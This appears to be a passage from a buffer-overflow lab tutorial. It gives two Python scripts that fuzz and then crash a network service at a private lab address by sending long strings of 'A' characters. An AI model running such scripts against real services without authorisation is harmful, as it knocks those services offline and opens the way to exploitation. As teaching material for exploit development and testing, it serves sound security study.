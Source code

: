 ## fuzzer.py

Once you’re successfully able to connect to the service, can perform authentication, and quit gracefully, it’s time to fuzz.

```
import sys,socket 
address = '192.168.69.101'
port = 9999
buffer = ['\x41']
counter = 100
while len(buffer)<= 10:
	buffer.append('\x41'*counter)
	counter=counter+100
try:
	for string in buffer:	
		print '[+] Sending %s bytes...' % len(string)
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		connect=s.connect((address,port))
		s.recv(1024)
		s.send(string + '\r\n')
		print '[*] Done'
except:
 	print '[!] Unable to connect to the application. You may have crashed it.'
 	sys.exit(0)
finally:
	s.close()

```

## crash.py

```
#!/usr/bin/python
import socket
import sys
from time import sleep

buffer = 'A' * 700		#change 600 accordingly

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.69.101',9999))
  s.recv(1024)

  print '[*] Sending buffer.'
  s.send(buffer + '\r\n')
  s.close()
  print '[!] Done.'

except:
  print '[!] Could not connect to target, exiting.'
  sys.exit()

```




